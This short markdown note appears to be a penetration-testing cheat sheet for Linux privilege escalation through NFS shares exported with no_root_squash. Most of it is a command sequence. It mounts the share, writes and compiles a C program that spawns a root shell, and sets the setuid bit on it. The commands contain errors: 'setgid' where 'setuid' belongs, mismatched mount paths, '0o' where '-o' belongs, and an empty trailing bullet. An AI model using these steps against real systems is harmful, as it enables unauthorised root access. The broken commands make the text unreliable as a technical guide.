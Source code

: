 NFS Root Squashing 

* cat /etc/exports 
* looking for no_root_squash
	* means that the /tmp folder is sharable and can be mounted 
```
showmount -e IP
mkdir /tmp/mountme
mount -o rw,vers=2 IP:/tmp /tmp/mountme
Making the malicious C file 

echo 'int main() { setgid(0); system("/bin/bash"); return 0;}' > /tmp/mount/x.c

gcc /tmp/mountme/x.c 0o /tmp/mountme/x

chmod +s /tmp/mountme/x

```

* Root_squash - have root access to the system 
* 